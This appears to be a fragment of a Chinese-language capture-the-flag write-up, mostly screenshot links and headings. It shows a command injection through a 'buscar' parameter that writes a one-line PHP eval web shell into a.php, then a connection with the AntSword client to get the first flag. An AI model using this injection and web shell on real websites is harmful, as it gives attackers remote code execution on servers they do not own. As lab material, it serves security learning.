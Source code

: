 ![image-20250316214444242](assets/image-20250316214444242.png)成功写入内容

写入一句话木马

```
?buscar=echo '<?php @eval($_POST['ra1n3']);?>' > a.php
```

![image-20250316214516635](assets/image-20250316214516635.png)

#### 蚁剑连接

![image-20250316214545569](assets/image-20250316214545569.png)



#### 拿到第一个flag
